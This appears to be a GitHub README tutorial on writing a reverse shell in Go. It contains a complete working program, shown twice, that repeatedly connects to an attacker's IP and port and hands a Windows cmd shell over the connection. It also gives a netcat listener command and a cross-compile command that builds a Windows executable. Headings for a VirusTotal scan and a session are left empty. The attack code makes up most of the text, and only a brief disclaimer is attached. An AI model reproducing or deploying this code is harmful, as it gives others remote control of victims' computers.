


    # Building a Reverse Shell in Go

    In this tutorial, we'll explore how to create a basic reverse shell in Go. A reverse shell is a type of shell where the target machine communicates back to the attacking machine. This can be useful for remote administration or accessing a system that is behind a firewall.

    ## Understanding the Code

    Let's break down the code step by step:

    ### Package and Imports

    ```go
    package main

    import (
        "fmt"
        "net"
        "os"
        "os/exec"
        "time"
    )
    ```

    - `package main`: Indicates that this Go file is the main package, which can be executed.
    - `import`: Importing necessary packages for our program. We import `fmt` for formatting, `net` for networking operations, `os` for operating system functionalities, `os/exec` for executing external commands, and `time` for time-related operations.

    ### Variables

    ```go
    var (
        a1 = "192.168.23.129"
        a2 = 4444
    )
    ```

    - `a1` and `a2` are variables storing the IP address and port number, respectively, of the attacker's machine.

    ### Function `e1()`

    ```go
    func e1() {
        if a1 == "0.0.0.0" || a2 == 0 {
            fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
            os.Exit(1)
        }
    }
    ```

    - `e1()` checks if the IP address (`a1`) or port number (`a2`) is not defined and exits the program with an error message if they are not defined.

    ### Function `e2()`

    ```go
    func e2() net.Conn {
        var c net.Conn
        var err error
        for {
            c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
            if err == nil {
                break
            }
            time.Sleep(5 * time.Second)
        }
        return c
    }
    ```

    - `e2()` attempts to establish a TCP connection to the attacker's machine (`a1:a2`). It retries every 5 seconds until a successful connection is made and returns the connection object `c`.

    ### Function `e3()`

    ```go
    func e3(c net.Conn) {
        cmd := exec.Command("cmd")
        cmd.Stdin = c
        cmd.Stdout = c
        cmd.Stderr = c
        err := cmd.Start()
        if err != nil {
            fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
            os.Exit(1)
        }
        cmd.Wait()
    }
    ```

    - `e3()` executes the `cmd` command on the target machine, redirecting its standard input, output, and error to the network connection `c`.

    ### Main Function

    ```go
    func main() {
        e1()
        c := e2()
        e3(c)
    }
    ```

    - The `main()` function calls `e1()` to check if the IP address and port are defined, then establishes a connection using `e2()` and executes the `cmd` command using `e3()`.

    ### Running the Code

    To run this code, you need to replace `a1` and `a2` with your own IP address and port number. Compile the code using `go build` and run the resulting executable on the target machine.

    In your attacker machine, you can listen for incoming connections using tools like `nc` or `netcat`:

    ```bash
    nc -nlvp 4444
    ```

    Once the connection is established, you should see a command prompt from the target machine on your attacker machine, allowing you to execute commands remotely.

    This is a basic example of a reverse shell in Go. Remember, using such techniques for unauthorized access is illegal and unethical. Always ensure you have proper authorization before attempting any remote administration.

```go
package main

import (
	"fmt"
	"net"
	"os"
	"os/exec"
	"time"
)

var (
	a1 = "192.168.23.129"
	a2 = 4444
)

func e1() {
	if a1 == "0.0.0.0" || a2 == 0 {
		fmt.Fprintln(os.Stderr, "[ERROR] a1 and/or a2 not defined.")
		os.Exit(1)
	}
}

func e2() net.Conn {
	var c net.Conn
	var err error
	for {
		c, err = net.Dial("tcp", fmt.Sprintf("%s:%d", a1, a2))
		if err == nil {
			break
		}
		time.Sleep(5 * time.Second)
	}
	return c
}

func e3(c net.Conn) {
	cmd := exec.Command("cmd")
	cmd.Stdin = c
	cmd.Stdout = c
	cmd.Stderr = c
	err := cmd.Start()
	if err != nil {
		fmt.Fprintln(os.Stderr, "[ERROR] cmd start failed:", err)
		os.Exit(1)
	}
	cmd.Wait()
}

func main() {
	e1()
	c := e2()
	e3(c)
}


```
## Compilation
```sh
GOOS=windows GOARCH=amd64 go build -o crust.exe curb.go
```


    ### Virustotal Scan
    
    
    ### session

    


#peacout


